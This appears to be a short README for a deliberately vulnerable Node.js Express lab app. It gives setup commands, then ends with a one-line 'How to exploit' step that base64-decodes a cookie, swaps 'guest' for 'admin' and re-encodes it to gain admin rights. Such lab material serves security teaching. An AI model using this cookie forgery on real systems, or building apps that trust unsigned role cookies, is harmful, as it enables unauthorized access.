 # Node.js app

If you don't want to create a Vagrant machine, you can set up this app manually as follows. These steps were tested on Ubuntu 18.04.

Install Node.js and npm
```
apt-get install -yq nodejs npm
```

Initialize the app
```
npm init --yes
```

Install Express framework and required libraries
```
npm install express cookie-parser pug --save
```

Run the application
```
nodejs app.js
```

How to exploit
```
echo <cookie_value> | base64 -d | sed 's/guest/admin/g' | base64
```
